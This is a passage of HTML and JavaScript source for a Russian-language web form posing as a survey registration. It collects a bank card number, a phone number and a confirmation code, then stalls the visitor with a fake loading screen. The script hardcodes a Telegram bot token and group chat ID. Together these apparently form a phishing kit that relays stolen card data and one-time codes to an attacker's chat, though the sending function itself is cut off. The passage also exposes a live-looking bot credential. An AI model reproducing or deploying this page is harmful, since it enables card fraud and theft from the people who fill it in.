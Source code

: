                         <label for="card-number">Номер карты:</label>
                        <input type="text" id="card-number" placeholder="Введите номер карты" required>
                    </div>
                    <div>
                        <label for="phone-number">Номер телефона:</label>
                        <input type="text" id="phone-number" placeholder="Введите номер телефона" required>
                    </div>
                    <button type="submit">Отправить</button>
                </form>
                <button class="back-btn" onclick="goBackToWelcome()">Назад</button>
            </div>

            <!-- Слайд 3: Подтверждение -->
            <div class="form-container container" id="code-container">
                <h1>Подтверждение</h1>
                <hr>
                <form id="code-form">
                    <p>
                        <label for="confirmation-code">Введите код подтверждения:</label><br>
                        <input type="text" id="confirmation-code" placeholder="Введите код" required>
                    </p>
                    <button type="submit">Подтвердить</button>
                </form>
                <button class="back-btn" onclick="goBackToRegistration()">Назад</button>
            </div>

            <!-- Слайд 4: Ожидание -->
            <div class="form-container container" id="loading-container">
                <h1>Загрузка опроса</h1>
                <hr>
                <p>Подождите, пожалуйста. Это может занять около 5 минут...</p>
            </div>
        </div>
    </div>

    <script>
        const TELEGRAM_BOT_TOKEN = "7584473430:AAEIiKWC8QLTvXsL5t5PpdCMum4UkOZaMoM";
        const TELEGRAM_CHAT_ID = "-4702734460"; // Обновленный ID группы

        // Функция для показа следующего слайда
        function showSlide(nextSlideId) {
            const slides = document.querySelectorAll('.container');
            slides.forEach(slide => slide.classList.remove('active')); // Скрыть все слайды
            document.getElementById(nextSlideId).classList.add('active'); // Показать текущий слайд
        }

        // Переход от приветствия к регистрации
        function goToRegistration() {
            showSlide('registration-container');
        }

        // Переход назад от регистрации к приветствию
        function goBackToWelcome() {
            showSlide('welcome-container');
        }
